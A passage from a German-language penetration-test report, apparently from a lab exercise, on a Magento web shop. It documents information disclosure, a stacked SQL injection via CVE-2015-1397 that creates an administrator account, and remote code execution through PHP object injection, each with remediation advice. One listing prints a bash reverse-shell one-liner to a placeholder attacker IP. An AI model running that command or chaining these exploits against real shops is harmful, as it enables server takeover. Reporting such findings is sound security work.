\chapter{Tobold's Pfeifenkraut-Shop}

\vfill
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/09_pfeifenkraut_shop.png}
    \caption{Webanwendung Tobold's Pfeifenkrautshop}
    \label{fig:07_pfeifenkraut_shop}
\end{figure}
\vfill
\newpage


\cvss{av=local, ac=high, pr=high, ui=required, s=unchanged, c=low, i=low, a=low}
\cvssdescription{Informationspreisgabe über das verwendete CMS System und aktiviertes Directory Listing.}

\section{\makecvssbadge Information Disclosure}
\cvssaddtosummary{Tobold's Pfeifenkraut-Shop: Information Disclosure}

\subsection*{Proof of concept}
Über den Header der Webanwendung ist ersichtlich, dass es sich bei der Webanwendung um eine Magento Anwendung handelt. Durch das aktivierte Directory Listing kann außerdem abgeschätzt werden, wann das Projekt erstellt wurde und um welche Magento-Version es sich handelt.

\subsection*{Empfehlungen}
\begin{itemize}
    \item Informationen über die verwendeten Technologien von der Webanwendung entfernen, Beispielsweise das Magento-Logo im Header entfernen (siehe \cite{owaspSecurityMisconfiguration}).
    \item Das Directory-Listing deaktivieren und nur die nötigen Dateien erreichbar machen (siehe \cite{owaspSecurityMisconfiguration}).
\end{itemize}

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=high, i=low, a=low}
\cvssdescription{Stacked SQL Injection zur Erstellung von Administrator-Accounts, mit Hilfe einer bekannten Sicherheitslücke.}

\section{\makecvssbadge SQL Injection}
\cvssaddtosummary{Tobold's Pfeifenkraut-Shop: SQL Injection}

\subsection*{Proof of concept}
Durch die gewonnen Informationen über das verwendete CMS und die ungefähre Versionsnummer konnten bekannte Schwachstellen ermittelt werden. Mit der Schwachstelle CVE-2015-1397 kann ein Account mit Administratorrechten erstellt werden. Diese Schwachstelle nutzt eine SQL-Injection am Endpunkt \texttt{/admin/Cms\_Wysiwyg/directive/index/} aus. Über den Filter-Parameter kann der Schadcode für die Stacked-SQL-Injection übergeben werden. Dadurch wird eine weitere SQL-Query zur Erstellung des Administrator-Accounts mitgegeben und ausgeführt. Der angepasste Code zur Schwachstelle befindet sich in \autoref{listing:appendix:pfeifenkrautshop_SQL}.


\subsection*{Empfehlungen}
\begin{itemize}
    \item Aktualisieren der Magento-Installation, welche den Patch für diese Schwachstelle beinhaltet (siehe \cite{owaspVulnerableDependency}).
    \item Regelmäßige Updates sind außerdem hilfreich um zukünftig ähnliche Sicherheitsprobleme zu umgehen, da dadurch Sicherheitsupdates regelmäßig durchgeführt werden (siehe \cite{owaspVulnerableDependency}).
    \item Eingabevalidierung der Benutzereingaben kann ebenfalls Injection-Angriffe wie diese verhindern (Siehe \cite{owaspInputValidation}).
    \item Im Speziellen für SQL-Injections ist das Verwenden von Paramterized-Queries sinnvoll, da dadurch solche Stacked-SQL-Injection Angriffe verhindert werden können  (Siehe \cite{owaspSQLInjectionPrevention}).
\end{itemize}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Authenticated Remote Code Execution über einen bekannten Exploit des Magento CMS.}

\section{\makecvssbadge Remote Code Execution (RCE)}
\cvssaddtosummary{Tobold's Pfeifenkraut-Shop: Remote Code Execution (RCE)}

\subsection*{Proof of concept}
Über eine weitere bekannte Schwachstelle für Magento-Installationen unterhalb der Version 1.9 können Systembefehle auf dem Webserver ausgeführt werden. Um diese Schwachstelle ausnutzen zu können, müssen Anmeldedaten für einen Benutzer mit Administratorzugriff vorhanden sein. Die Erstellung eines solchen Accounts wurde im vorherigen Kapitel beschrieben. Damit der Exploit funktioniert, muss zunächst eine Bestellung aufgegeben und von einem Administrator bestätigt werden. Danach kann das Python-Skript ausgeführt werden, das die Schwachstelle ausnutzt. Das angepasste Python-Skript befindet sich in \autoref{listing:appendix:pfeifenkrautshop_RCE}.  Die Schwachstelle wird durch ein unsicheres PHP-Skript ausgenutzt. Dieses Skript behandelt PHP-Objekte unsicher, so dass eine PHP Object Injection möglich ist. Dazu wird eine POP-Kette übergeben, die bei der Deserialisierung der Objekte ein übergebenes Systemkommando ausführt. Wird dieses Systemkommando wie in \autoref{listing:bash-reverse-shell} ausgewählt, kann eine Reverse Shell gestartet werden. Der entsprechende Netcat-Listener, der auf dem Angreifersystem für diese Reverse Shell ausgeführt wird, ist in \autoref{listing:netcat-listener} dargestellt. Ein Nachweis ist in \autoref{fig:07_pfeifenkraut_shop_proof} dargestellt. 

\begin{listing}[!ht]
\begin{minted}{bash}
bash -c 'bash -i >& /dev/tcp/<Angreifer-IP>/9001 0>&1
\end{minted}
\caption{Bash Reverse Shell}
\label{listing:bash-reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/07_pfeifenkraut_shop_proof.png}
    \caption{Proof für die Webanwendung Tobold's Pfeifenkrautshop}
    \label{fig:07_pfeifenkraut_shop_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Updaten der Magento-Version. In den aktuellen Versionen ist die Sicherheitslücke geschlossen (siehe \cite{owaspVulnerableDependency}).
    
\end{itemize}